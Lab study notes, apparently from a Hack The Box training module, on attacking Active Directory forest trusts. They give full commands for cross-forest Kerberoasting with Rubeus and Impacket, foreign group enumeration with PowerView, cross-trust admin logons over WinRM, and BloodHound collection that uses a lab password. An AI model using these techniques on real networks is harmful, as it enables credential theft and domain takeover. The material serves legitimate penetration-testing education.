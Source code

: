 In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.






We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.
` Enumerating Accounts for Associated SPNs Using Get-DomainUser`
```powershell-session
> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

`get user details`
```powershell-session
> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```
We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.
`Kerbroast `
```powershell-session
> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

## Admin Password Re-Use & Group Membership`
situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.
## (`freightlogistics.local` and `Inlanefreight.local` forests)
#### Using Get-DomainForeignGroupMember
enumerate groups with users that do not belong to the domain, also known as `foreign group membership`.
```powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

# sid history abuse (cross forest)

If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust.
n the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

![Diagram showing trust relationship between INLANEFREIGHT.LOCAL and CORP.LOCAL domains, with user migration due to merger. Includes user SIDs and resources.](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

cross forest kerberoasting
```shell-session
$ $ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile hashes_spns
```


## Hunting Foreign Group Membership with Bloodhound-python
Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. 
In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

## Kerberoast From linux

get accounst with SPN set
```shell-session
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

get all TGS Tickets 
```shell-session
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  outputfile wley-spn
```

attempt password spray with the cracked password.

---
## Collecting BH Data for Two Different Forests


### Domain1: Modifying DNS so bloodhound-python can run
Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

```shell-session
$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
Once this is in place, we can run the tool against the target domain as follows:
```shell-session
$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

```shell-session
zip -r ilfreight_bh.zip *.json
```


### domain2: We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

 Adding DOMAIN2  Information to /etc/resolv.conf
```shell-session
cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

```shell-session
$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

![[Pasted image 20250728013635.png]]